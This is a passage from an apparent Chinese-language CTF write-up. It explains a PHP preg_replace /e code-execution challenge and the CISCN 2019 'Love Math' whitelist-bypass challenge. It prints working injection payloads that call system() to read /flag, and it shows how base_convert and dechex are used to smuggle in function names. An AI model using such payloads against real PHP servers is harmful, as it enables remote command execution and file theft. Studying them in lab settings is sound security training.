*   所以我们的 payload `?\S*={${phpinfo()}}`是成功执行的，那么读取flag，就可以调用源码中的`getFlag`()函数给cmd赋值。所以

    ```
    ?\S*=${getFlag()}&cmd=system("cat /flag"); 
    ```

*   这题重点在哪呢，首先找到得到nest.php源码不难，难的就是利用`preg_replace` 函数`/e`模式的代码执行漏洞。第一就是不知道，第二就是`\S*`细节，总的来说，不会，难。

### 5、[CISCN 2019 初赛]Love Math

*   这个就，真的就是神仙操作。

*   要满足命令执行的条件，首先就是传入的变量`c`长度小于80，再就是过滤了空格下划线中括号等一系列字符，最后只允许使用白名单里的函数。

*   也就是说，需要满足这些条件来命令执行。比如说`cat /flag`。

*   但这过不去白名单，想办法用白名单里的函数转换出来。

*   首先就是有一个PHP动态函数。php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数。比如说下面就会执行`cat /flag`

    ```
    $a='cat';
    $a('/flag'); 
    ```

*   然后就是`pi`函数在PHP中被默认字符串而不是函数但它在上面说的白名单中。

*   再介绍几个函数。

    ```
    base_convert() 函数：在任意进制之间转换数字。
    dechex() 函数：把十进制转换为十六进制。
    hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。 
    ```

*   还有就是36进制。
    ![在这里插入图片描述](img/8d60808e8238381cffbcdfa8af641d83.png)

*   直接给payload。

    ```
    $pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag 
    ```

*   首先就看它长度已经超过80，为什么可以？回去看源码，验证的 $_GET[‘c’] ，而我们传入的后半部分已经相当于`c=&pi=`，属于`pi` 变量，所以可行。而用pi就是用刚刚上面的性质。而后面为什么命令执行的时候又能用，原因是变量被覆盖了。

*   再看前面部分。构造一个`_GET`
    ![在这里插入图片描述](img/249817cb048a7e81043251161a5e0539.png)
